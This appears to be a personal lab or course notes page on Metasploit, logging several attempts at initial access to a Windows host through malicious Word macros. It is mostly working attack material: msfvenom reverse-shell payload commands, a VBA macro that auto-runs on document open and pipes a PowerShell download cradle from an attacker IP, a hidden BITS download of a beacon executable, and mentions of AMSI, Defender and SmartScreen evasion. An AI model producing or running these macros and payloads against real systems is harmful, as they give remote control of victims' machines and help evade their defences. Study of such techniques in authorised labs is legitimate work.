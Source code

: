 ## Metasploit framework notes

#### Auto Run Script

```
set AutoRunScript "migrate -n explorer.exe"
```

## msf encoder

```
set enablestageencoding true
set stageencoder x86/xor_dynamic
```

### Ch1 Notes

### (FAILED)Initial access failed method 1-triggle asmi bypass, add marco payload xor 
1. Identify the web port on 192.168.49.121  allowing file upload. Upload a doc file which allow which allow [ping marco](/msf/ping.vba) command to verify the target allowing code execution though marco 

2. Create stageless tcp raw payload 
```
sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.49.141  LPORT=443 -f raw -o tcp.bin
```
3. Patch the payload
- **encode the payload with custom wrapper to create exe to bypass defender**
- **append microsoft binary meta data to the payload to bypass smart screen**

4. Create malicious marco with amsi bypass and download our malicou payload to remote host, 
- encode the marco content with powershell  [marco  xor Payload encoder](/msf/payloadencoder.ps)
- [test.txt](/msf/test.txt) contains amsi powershell patching and web invoke request to download our encoded and digitally signed payload
- Craft the [marco](/msf/asmibypasswithxor.vba) and attached to a doc file
5. No call back, no download log, maybe the powershell is not allowed??

### (FAILED)Initial access failed method 2-embed vba shell code in the doc file

1. Create x86 staged payload
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. embed into the [macilous marco](/msf/shellcode.vba) using VirtualAlloc, RtlMoveMemory, CreateThread method
3. lauch msf6

```
set payload windows/meterpreter/reverse_https
set enablestageencoding true
set stageencoder x86/xor_dynamic
run -j
```
4. Not working... maybe the shell code get flaged?

### (FAILED)Initial access failed method 3-embed powershell download cradle to execute payload
```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.141/run.ps1') | IEX"
    Shell str, vbHide
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub

```

#### shell downloadn works so far

```
 Dim str As String
    str = "powershell -c Start-bitstransfer -source http://192.168.49.141:80/newbeacon.exe -destination C:\\Windows\\Tasks\\newbeacon.exe"
    Shell str, vbHide
```
